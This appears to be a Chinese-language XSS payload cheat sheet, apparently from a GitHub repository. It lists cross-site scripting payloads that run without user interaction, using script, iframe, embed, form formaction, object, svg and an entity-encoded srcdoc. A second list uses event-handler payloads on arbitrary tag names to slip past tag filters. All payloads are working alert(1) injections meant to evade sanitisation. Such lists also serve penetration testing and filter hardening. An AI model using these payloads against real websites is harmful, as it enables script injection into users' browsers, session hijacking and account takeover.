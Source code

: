 



## 无交互事件payload

**如果没有事件，可以使用下面payload来进行代替，不过有些payload需要与用户交互**

```javascript
<script>alert(1)</script>
<script src=data:,alert(1)>
<iframe src=javascript:alert(1)>
<embed src=javascript:alert(1)>
<a href=javascript:alert(1)>click
<math><brute href=javascript:alert(1)>click
<form action=javascript:alert(1)><input type=submit>
<isindex action=javascript:alert(1) type=submit value=click>
<form><button formaction=javascript:alert(1)>click
<form><input formaction=javascript:alert(1) type=submit value=click>
<form><input formaction=javascript:alert(1) type=image value=click>
<form><input formaction=javascript:alert(1) type=image src=SOURCE>
<isindex formaction=javascript:alert(1) type=submit value=click>
<object data=javascript:alert(1)>
<iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;>
<svg><script xlink:href=data:,alert(1) />
<math><brute xlink:href=javascript:alert(1)>click 
```



## 交互事件payload

**当所有已知的 HTML 标签名称都不允许使用时，可以使用以下 payload。任何字母字符或字符串都可以用来替代“x”作为标签名称。这些 payload 需要用户交互，正如它们的文本内容所描述的那样（这也是 payload 的一部分）。**

```javascript
<x contenteditable onblur=alert(1)>lose focus!
<x onclick=alert(1)>click this!
<x oncopy=alert(1)>copy this!
<x oncontextmenu=alert(1)>right click this!
<x onauxclick=alert(1)>right click this!
<x oncut=alert(1)>copy this!
<x ondblclick=alert(1)>double click this!
<x ondrag=alert(1)>drag this!
<x contenteditable onfocus=alert(1)>focus this!
<x contenteditable oninput=alert(1)>input here!
<x contenteditable onkeydown=alert(1)>press any key!
<x contenteditable onkeypress=alert(1)>press any key!
<x contenteditable onkeyup=alert(1)>press any key!
<x onmousedown=alert(1)>click this!
<x onmouseenter=alert(1)>hover this
<x onmousemove=alert(1)>hover this!
<x onmouseout=alert(1)>hover this!
<x onmouseover=alert(1)>hover this!
<x onmouseup=alert(1)>click this!
<x contenteditable onpaste=alert(1)>paste here!
<x onpointercancel=alert(1)>hover this!
<x onpointerdown=alert(1)>hover this!
<x onpointerenter=alert(1)>hover this!
<x onpointerleave=alert(1)>hover this!
<x onpointermove=alert(1)>hover this!
<x onpointerout=alert(1)>hover this!
<x onpointerover=alert(1)>hover this!
<x onpointerup=alert(1)>hover this!
<x onpointerrawupdate=alert(1)>hover this!
```
